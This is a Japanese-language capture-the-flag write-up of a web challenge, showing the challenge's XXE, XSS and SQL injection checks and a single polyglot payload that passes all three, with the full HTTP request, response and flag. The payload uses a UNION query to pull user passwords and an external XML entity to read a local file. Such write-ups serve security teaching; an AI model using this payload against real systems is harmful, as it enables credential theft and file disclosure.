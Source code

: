# A Payload to rule them all [web]

written by Ark

- Score: 171
- Solves: 65

XXE、XSS、SQLiを同じペイロードで成功させる問題

## 問題概要

http://payload.pwn2.win/source からソースコードが見れる。

```fish
$ http -v --form POST http://payload.pwn2.win/ payload="hogehoge"
```

のようなPOSTをすることで、`hogehoge`によるXXE、XSS、SQLiの攻撃が成功するかをチェックし、すべて成功すればflagを返すような実装になっている。

XXE、XSS、SQLiのチェック部分は次のような感じ。

**test_xxe**

```javascript
function test_xxe(payload) {
  try {
    var my_secret = Math.random().toString(36).substring(2);
    fs.writeFileSync("/home/gnx/script/xxe_secret", my_secret)
    var doc = libxml.parseXml(payload, { noent: true, nonet: true })
    return doc.toString().includes(my_secret)
  } catch(e) {
    return false
  }
}
```

`/home/gnx/script/xxe_secret`に乱数が書き込まれるので、XML内にこの乱数値が含まれるようにすれば良い。

**test_xss**

```javascript
async function test_xss(payload) {
  try {
    const browser = await puppeteer.launch({
      // 省略
    })
    const page = await browser.newPage()
    page.setDefaultNavigationTimeout(1000);
    payload = sanitizeHtml(payload, { allowedTags: [] })
    await page.goto(`data:text/html,<script>${payload}</script>`)
    const check = await page.evaluate("( typeof xss != 'undefined' ? true : false )") // vlw herrera
    await browser.close()
    return check
  } catch (error) {
    console.error(error)
  }
}
```

XSSで変数`xss`に何らかの値を突っ込めば良いことがわかる。ただし、XSSの前にペイロードはサニタイズされる。サニタイズには[libxmljs](https://github.com/libxmljs/libxmljs)が使われている。

**test_sqli**

```javascript
async function test_sqli(payload) {
  var connection = mysql.createConnection({
    // 省略
  })
  const query = util.promisify(connection.query).bind(connection)
  connection.connect()
  const users = await query("SELECT * from users")
  try {
    const sqli = await query(`SELECT * from posts where id='${payload}'`)
    await connection.end()
    return JSON.stringify(sqli).includes(users[0]["password"])
  } catch(e) {
    return false
  }
}
```

SQLiで`users`の中の`password`の値を引っこ抜ければ良い。

## 解法

いい感じにコメントアウトを組み合わせてパズルを解くだけ。最終的に次のようになった。

```
<!--aa' OR 1=1 UNION ALL SELECT NULL, password, NULL FROM users # */--><!DOCTYPE data [<!ENTITY dummy ">window.xss = 1;/*"><!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">]><data>&xxe;*/</data>
```

それぞれ次のように動作する：

### XXE

XMLにとってコメントアウトになる部分を省くと

```xml
<!DOCTYPE data [
    <!ENTITY dummy ">window.xss = 1;/*">
    <!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">
]>
<data>&xxe;*/</data>
```

になる（読みやすいように改行しています）。`file:///home/gnx/script/xxe_secret`への外部実体参照を行っている。

### XSS

`test_xss`では最初にサニタイズを行っている。サニタイズ後のコードは

```javascript
window.xss = 1;/*"&gt;]&gt;&amp;xxe;*/
```

となり、`xss`に値が入るのでOK。

### SQLi

これがinjectionされるとSQL文は

```mysql
SELECT * from posts where id='<!--aa' OR 1=1 UNION ALL SELECT NULL, password, NULL FROM users # */--><!DOCTYPE data [<!ENTITY dummy ">window.xss = 1;/*"><!ENTITY xxe SYSTEM "file:///home/gnx/script/xxe_secret">]><data>&xxe;*/</data>'
```

になる。UNIONで結合するときにカラム数がわからないので`NULL`で微調整した。

### 実行結果

[httpie](https://httpie.org/)でPOSTしたらこうなった。


```fish
$ http -v --form POST http://payload.pwn2.win/ payload="<!--aa' OR 1=1 UNION ALL SELECT NULL, password, NULL FROM users # */--><!DOCTYPE data [<!ENTITY dummy \">window.xss = 1;/*\"><!ENTITY xxe SYSTEM \"file:///home/gnx/script/xxe_secret\">]><data>&xxe;*/</data>"
POST / HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 302
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: payload.pwn2.win
User-Agent: HTTPie/0.9.8

payload=%3C%21--aa%27+OR+1%3D1+UNION+ALL+SELECT+NULL%2C+password%2C+NULL+FROM+users+%23+%2A%2F--%3E%3C%21DOCTYPE+data+%5B%3C%21ENTITY+dummy+%22%3Ewindow.xss+%3D+1%3B%2F%2A%22%3E%3C%21ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fhome%2Fgnx%2Fscript%2Fxxe_secret%22%3E%5D%3E%3Cdata%3E%26xxe%3B%2A%2F%3C%2Fdata%3E

HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 53
Content-Type: text/html; charset=utf-8
Date: Sat, 30 May 2020 21:41:49 GMT
ETag: W/"35-sI94sUxFxcBb5euZ/qdPcFO4/0Q"
X-Powered-By: Express

CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}
```

## フラグ

`CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}`

## 感想

完全にパズルだった。
